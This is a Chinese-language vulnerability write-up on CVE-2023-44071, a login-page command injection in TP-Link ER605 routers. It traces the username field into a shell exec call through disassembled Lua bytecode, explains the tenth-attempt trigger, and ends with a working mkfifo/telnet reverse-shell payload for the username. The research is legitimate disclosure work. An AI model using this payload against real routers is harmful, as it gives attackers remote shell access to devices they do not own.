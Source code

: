 # TP-Link ER605 Command injection

## 前言

> 这是我写这个漏洞文章的第二版，发现漏洞的契机是在去年的PWN2OWN TORONTO 2023这个设备是比赛的目标设备，在比赛的固件中已修复了该问题，让我们来简单的看一下这个漏洞吧。

## 分配的CVE

> CVE-2023-44071

## 影响版本

> ER605(UN)_V1_1.3.0 Build 20230511, ER605(UN)_V2_2.1.2 Build 20230210

## 分析

> 下载存在漏洞的版本，直接使用unblob提取固件

![img](./unblob.png)

> 查看文件系统就是openwrt，所以直接定位luci去进行代码审计通过，通过搜索危险函数定位到，/usr/lib/lua/luci/controller/login.lua 在登录的lua文件中居然存在exec函数，在luci中luci.sys.exec是用来执行系统命令的。

![img](./exec.png)

> 当然真实情况是我将编译的lua文件进行反编译后在vscode中找危险函数始终没有进展(因为反编译工具始终没有正确识别exec函数)，后面直接使用grep去搜索危险函数才发现login中存在exec

![img](./compile.png)

> 由于反编译的代码中并没有成功识别exec函数我只能够使用`luadec -dis`反汇编所以下面的都是汇编代码，阅读起来一点麻烦。定位到exec函数
```
         ...
  180 [-]: GETGLOBAL R20 K16      ; R20 := string
  181 [-]: GETTABLE  R20 R20 K54  ; R20 := R20["format"]
  182 [-]: LOADK     R21 K55      ; R21 := "ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"
  183 [-]: GETUPVAL  R22 U11      ; R22 := U11
  184 [-]: GETUPVAL  R23 U12      ; R23 := U12
  185 [-]: GETUPVAL  R24 U13      ; R24 := U13
  186 [-]: MOVE      R25 R7       ; R25 := R7
  187 [-]: GETUPVAL  R26 U14      ; R26 := U14
  188 [-]: MOVE      R27 R9       ; R27 := R9
  189 [-]: GETTABLE  R28 R18 K42  ; R28 := R18["attempts"]
  190 [-]: CALL      R20 9 2      ; R20 := R20(R21 to R28)
  191 [-]: GETTABLE  R21 R3 K56   ; R21 := R3["exec"]
  192 [-]: MOVE      R22 R20      ; R22 := R20
  193 [-]: CALL      R21 2 1      ;  := R21(R22) //这里存在可能的 command injection
         ...
```

> 可以看到在181行中使用了string.format字符串格式化函数，推测使用string.format格式化`"ubus call ievent addx \'{\"module\":\"%s\",\"eid\":\"%s\",\"errcode\":\"%s\",\"attrs\":\"{\\\"userName\\\":\\\"%s\\\",\\\"loginType\\\":%d,\\\"userIP\\\":\\\"%s\\\",\\\"retryCnt\\\":%d}\"}\'"` 可以看到其中的userName可能可以控制，寻找如何接收username?

```
    0 [-]: NEWTABLE  R1 0 0       ; R1 := {} (size = 0,0)
    1 [-]: GETGLOBAL R2 K0        ; R2 := require
    2 [-]: LOADK     R3 K1        ; R3 := "luci.sauth"
    3 [-]: CALL      R2 2 2       ; R2 := R2(R3)
    4 [-]: GETGLOBAL R3 K0        ; R3 := require
    5 [-]: LOADK     R4 K2        ; R4 := "luci.sys"
    6 [-]: CALL      R3 2 2       ; R3 := R3(R4)
    7 [-]: GETGLOBAL R4 K0        ; R4 := require
    8 [-]: LOADK     R5 K3        ; R5 := "luci.model.checktypes"
    9 [-]: CALL      R4 2 2       ; R4 := R4(R5)
   10 [-]: GETUPVAL  R5 U0        ; R5 := U0
   11 [-]: GETTABLE  R5 R5 K4     ; R5 := R5["decode"]
   12 [-]: GETTABLE  R6 R0 K5     ; R6 := R0["data"]
   13 [-]: CALL      R5 2 2       ; R5 := R5(R6)
   14 [-]: GETTABLE  R6 R5 K6     ; R6 := R5["params"]
   15 [-]: GETTABLE  R7 R6 K7     ; R7 := R6["username"] //获取username的值，存放在R7中
   16 [-]: GETTABLE  R8 R6 K8     ; R8 := R6["password"]
   17 [-]: GETTABLE  R9 R3 K9     ; R9 := R3["getenv"]
   18 [-]: LOADK     R10 K10      ; R10 := "REMOTE_ADDR"
   19 [-]: CALL      R9 2 2       ; R9 := R9(R10)
   20 [-]: LOADNIL   R10 R10      ; R10 := nil
   21 [-]: GETTABLE  R11 R4 K11   ; R11 := R4["check_ip_in_lan"]
   22 [-]: MOVE      R12 R9       ; R12 := R9
   23 [-]: CALL      R11 2 2      ; R11 := R11(R12)
   24 [-]: NOT       R11 R11      ; R11 := not R11
   25 [-]: LOADNIL   R12 R12      ; R12 := nil
                ...
```

> 在15行使用require接收username，存放到R7中。而正好在186行使用了R7。现在可以推测我们只需要在登录的时候更改username为shell command就可以注入了吗?

> 当然我们失败了，但是为什么难道这个username是从别的地方来的吗？向前查看代码我发现了一些判断！

```
         ...
  176 [-]: GETTABLE  R20 R18 K42  ; R20 := R18["attempts"]
  177 [-]: GETUPVAL  R21 U4       ; R21 := U4
  178 [-]: EQ        0 R20 R21    ; if R20 == R21 then goto 180 else goto 194
  179 [-]: JMP       14           ; PC += 14 (goto 194)
         ...
```
> 当R20等于R21时我们将jmp到180，也就是执行exec的地方，所以这是什么东西呢?

```

  157 [-]: GETUPVAL  R20 U4       ; R20 := U4
  158 [-]: GETTABLE  R21 R18 K42  ; R21 := R18["attempts"]
  159 [-]: SUB       R20 R20 R21  ; R20 := R20 - R21 
  160 [-]: SETTABLE  R1 K45 R20   ; R1["attemptsAllowed"] := R20
  161 [-]: TEST      R11 0        ; if R11 then goto 163 else goto 170
  162 [-]: JMP       7            ; PC += 7 (goto 170)

```

> 继续向前面查看可以看到在158行也对R20和R21执行了什么操作，在下面可以看到attemptsAllowed，那么会不会是允许登录的次数，因为在测试登录时系统会提醒还有多少次尝试登录的机会。

> 没错我们赌赢了✌️！确实是这样的，当我们尝试登录到第十次，也就是最后一次机会时将用户名更改为shellcommand。我们将会获取一个漂亮的shell🫡！

```sh
'`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet ip port > f`'
```

## Vido

https://drive.google.com/file/d/1bXSqmImmRc7TIJ8HjFDIc1s0EDJuQpEz/view?usp=sharing